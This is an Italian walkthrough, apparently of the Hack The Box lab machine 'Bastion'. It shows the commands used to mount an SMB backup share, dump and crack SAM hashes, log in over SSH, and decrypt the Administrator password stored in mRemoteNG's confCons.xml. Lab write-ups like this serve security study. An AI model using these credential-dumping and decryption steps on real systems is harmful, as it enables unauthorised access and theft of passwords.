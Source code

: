 Cosa fare:

Noto che c'è samba, quindi girando su samba backup trovo cose interessanti.
Monto la shared directory sul pc mio sudo mount -t cifs -o username=guest //10.10.10.134/Backups /mnt
monto il file vhd, e trovo su SAM files, utilizzando samdump2 (mi dumpo l'hash file di password : 26112010952d963c8dc4217daec986d9 risultato: bureaulampje

Ora accedo a ssh con user L4mpje e pass bureaulampje
per user: dir, cd Desktop , type user.txt

root:
troviamo un programma interessant mRemoteNG
qualcuno ha creato un programma che si copia tutte le password digitate,
andiamo quindi in C/Users/L4mpje/AppData/Roaming/mRemoteNG type di confCons.xml e ci prendiamo la password admin

Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="

/hack/bastion/mremoteng-decrypt$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2